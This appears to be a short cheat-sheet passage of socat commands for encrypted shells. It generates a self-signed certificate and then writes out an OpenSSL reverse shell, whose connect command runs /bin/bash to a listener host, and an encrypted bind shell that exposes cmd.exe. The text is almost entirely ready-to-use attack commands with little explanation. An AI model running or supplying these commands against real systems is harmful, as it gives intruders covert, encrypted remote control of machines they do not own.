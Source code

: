 ```sh

# Create a cert
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem


# Reverse shell listener
# verify=0 : disable cert validation
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -


# connect to above listener
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

- Encrypted Reverse shell

```sh
# Bind shell listener
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connect to above listener
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
  
```
  